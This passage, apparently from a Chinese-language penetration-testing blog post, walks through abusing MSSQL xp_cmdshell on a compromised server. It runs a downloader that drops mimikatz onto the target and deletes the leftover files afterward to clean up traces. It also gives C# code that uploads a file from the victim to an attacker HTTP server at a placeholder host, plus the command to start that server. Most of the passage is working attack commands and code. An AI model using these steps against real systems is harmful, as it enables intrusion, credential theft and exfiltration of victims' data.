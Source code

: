 
3、运行download下载mimikatz到目标机器  
```
exec master..xp_cmdshell 'C:\download.exe'
```
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/download%20file.jpeg?raw=true)


4、mi.exe将被下载至C盘。  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/%E6%9F%A5%E7%9C%8B%E4%B8%8B%E8%BD%BD%E7%9A%84%E6%96%87%E4%BB%B6.jpeg?raw=true)

5、渗透完成后执行以下命令删除遗留文件1.cs、download.exe、mi.exe
```
exec master..xp_cmdshell 'del c:\1.cs'
exec master..xp_cmdshell 'del c:\download.exe'
exec master..xp_cmdshell 'del c:\mi.exe'
```
##### （二）使用C#完成文件上传（上传文件test.txt到HTTPServer）
1、文件编译方法同上（一），上传用到的1.cs文件如下所示：
```
using System.Net;namespace uploader{class Program{static void Main(string[] args){WebClient client = new WebClient();client.Headers.Add(HttpRequestHeader.Referer,"rerefeR");string URLAddress = @"http://xxxx:8000";string myFile = @"C:\test.txt";client.Credentials = CredentialCache.DefaultCredentials;client.UploadFile(URLAddress, "POST", myFile);client.Dispose();}}}
```
2、启动HTTPServer  
```
python SimpleHTTPServerWithUpload.py 8000
```
  